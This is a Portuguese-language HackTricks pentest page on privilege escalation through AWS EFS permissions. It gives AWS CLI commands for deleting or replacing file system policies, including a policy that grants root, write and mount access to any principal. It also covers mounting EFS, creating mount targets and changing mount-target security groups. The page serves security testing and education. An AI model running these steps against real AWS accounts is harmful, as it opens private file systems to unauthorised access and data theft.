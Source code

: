 # AWS - EFS Privesc

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você quiser ver sua **empresa anunciada no HackTricks** ou se quiser acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>

## EFS

Mais **informações sobre EFS** em:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Lembre-se de que, para montar um EFS, você precisa estar em uma sub-rede onde o EFS está exposto e ter acesso a ele (grupos de segurança). Se isso estiver acontecendo, por padrão, você sempre poderá montá-lo, no entanto, se estiver protegido por políticas IAM, você precisará ter as permissões extras mencionadas aqui para acessá-lo.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Com qualquer uma dessas permissões, um invasor pode **alterar a política do sistema de arquivos** para **dar acesso a você** a ele, ou apenas **excluí-lo** para que o **acesso padrão** seja concedido.

Para excluir a política:

```bash
aws efs delete-file-system-policy \
    --file-system-id <value>
```

Para alterá-la:

```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Dê a todos que tentarem montá-lo acesso de leitura, gravação e root
// policy.json: 
{
    "Version": "2012-10-17",
    "Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
    "Statement": [
        {
            "Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": [
	       "elasticfilesystem:ClientRootAccess",
               "elasticfilesystem:ClientWrite",
               "elasticfilesystem:ClientMount"
            ],
            "Condition": {
                "Bool": {
                    "elasticfilesystem:AccessedViaMountTarget": "true"
                }
            }
        }
    ]
}
```

### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Com essa permissão, um invasor poderá **montar o EFS**. Se a permissão de gravação não for dada por padrão a todos que possam montar o EFS, ele terá apenas **acesso de leitura**.

```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```

As permissões extras `elasticfilesystem:ClientRootAccess` e `elasticfilesystem:ClientWrite` podem ser usadas para **escrever** dentro do sistema de arquivos depois que ele é montado e para **acessar** esse sistema de arquivos **como root**.

**Impacto potencial:** Privesc indireto localizando informações sensíveis no sistema de arquivos.

### `elasticfilesystem:CreateMountTarget`

Se um invasor estiver dentro de uma **sub-rede** onde **nenhum ponto de montagem** do EFS existe. Ele poderia simplesmente **criar um em sua sub-rede** com esse privilégio:

```bash
# Você precisa indicar grupos de segurança que concederão ao usuário acesso à porta 2049
aws efs create-mount-target --file-system-id <fs-id> \
    --subnet-id <value> \
    --security-groups <value>
```

**Impacto potencial:** Privesc indireto localizando informações sensíveis no sistema de arquivos.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

Em um cenário em que um invasor descobre que o EFS tem um ponto de montagem em sua sub-rede, mas **nenhum grupo de segurança está permitindo o tráfego**, ele poderia simplesmente **alterar isso modificando os grupos de segurança selecionados**:

```bash
aws efs modify-mount-target-security-groups \
    --mount-target-id <value> \
    --security-groups <value>
```

**Impacto potencial:** Privesc indireto localizando informações sensíveis no sistema de arquivos.



<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você quiser ver sua **empresa anunciada no HackTricks** ou se quiser acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>